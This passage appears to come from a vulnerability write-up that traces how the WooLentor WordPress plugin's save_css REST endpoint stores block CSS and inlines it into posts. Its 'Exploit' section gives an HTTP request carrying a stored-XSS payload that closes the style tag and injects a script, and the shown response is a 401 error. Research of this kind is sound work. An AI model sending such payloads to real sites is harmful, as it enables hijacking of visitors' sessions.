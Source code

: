 
There are multiple results, but since we're analyzing the **REST API** feature, focus on the **Api.php** file.

`register_routes( $namespace )` in `Manage_Styles` requires the `$namespace` parameter, so `woolentor/v1` is likely passed in by the class instantiation in Api.php. Search for `Manage_Styles` in Api.php to confirm.

![Call Api](callapi.png "Call Api")

The namespace is indeed called and passed that way.

👉 Therefore, sending a **POST** to `http://localhost/wp-json/woolentor/v1/save_css` will invoke the `save_block_css` callback to add/update block CSS in the file and database. When visiting a post whose `post_id` has saved block CSS, `generate_inline_css` will retrieve the block CSS and inline it inside a `<style type="text/css"></style>` tag in the post.

---

## Exploit

### Detect XSS

Use a user with the **contributor** role to create any post and note its ID.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```
